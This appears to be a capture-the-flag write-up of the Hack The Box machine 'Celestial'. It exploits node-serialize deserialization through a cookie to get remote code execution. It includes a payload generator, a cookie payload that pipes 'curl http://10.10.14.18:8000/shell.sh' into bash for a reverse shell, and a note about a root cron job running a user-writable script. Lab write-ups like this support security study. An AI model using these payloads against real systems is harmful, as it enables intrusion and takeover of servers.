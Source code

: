 <img width="567" height="228" alt="image" src="https://github.com/user-attachments/assets/22449241-f5b4-4b10-800e-2dac28e3ece5" />

But the original error page reveal the system using express js framework

<img width="550" height="184" alt="image" src="https://github.com/user-attachments/assets/7a8e81cb-7e74-4bd7-86f4-a36f7ef4a947" />

The text is exactly the same as Express, but there’s no HTML in this case.
The source is very simple:
```bash
    // If c.Next() does not match, return 404
    err := NewError(StatusNotFound, "Cannot "+c.Method()+" "+c.getPathOriginal())
```
There is cookie if we modified the cookie it replicate the name in what we set as username.

<img width="1919" height="612" alt="image" src="https://github.com/user-attachments/assets/1e4b7b6a-214a-47fe-9cc9-2e1041b650a4" />

I used the node desrialization with cookie
```bash
┌──(sabeshan㉿kali)-[~/HTB/OSCP/Celestial]
└─$ cat payload.js       
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
                                                                                                                                       
┌──(sabeshan㉿kali)-[~/HTB/OSCP/Celestial]
└─$ node payload.js
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```
this is the crafted the payload with this
<img width="1536" height="646" alt="image" src="https://github.com/user-attachments/assets/b707204d-f282-44ae-845a-deeff7f9f341" />

this is the output for the ping payload now i can tried the revershell
<img width="1919" height="740" alt="image" src="https://github.com/user-attachments/assets/72afb98b-1d5e-47ec-bdc2-fbdef9911432" />

I obatain the shell via this command
```bash
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl http://10.10.14.18:8000/shell.sh| bash', function(error, stdout, stderr)
{ console.log(stdout) })","country":"Idk","city":"Lametown","num":"2"}
```
this log deatil reveal the cronjob happen on the every 5 minutes

<img width="1892" height="448" alt="image" src="https://github.com/user-attachments/assets/ade68df6-00ee-4983-aa25-c7c1be1a15d5" />

this script is writable by sun and has go the root shell via cron.
```bash
sun@celestial:/var/log$ less syslog
sun@celestial:/var/log$ less syslog
sun@celestial:/var/log$ ls -la /home/sun/Documents/script.py
-rw-rw-r-- 1 sun sun 29 Sep  8 06:57 /home/sun/Documents/script.py
sun@celestial:/var/log$ 
```


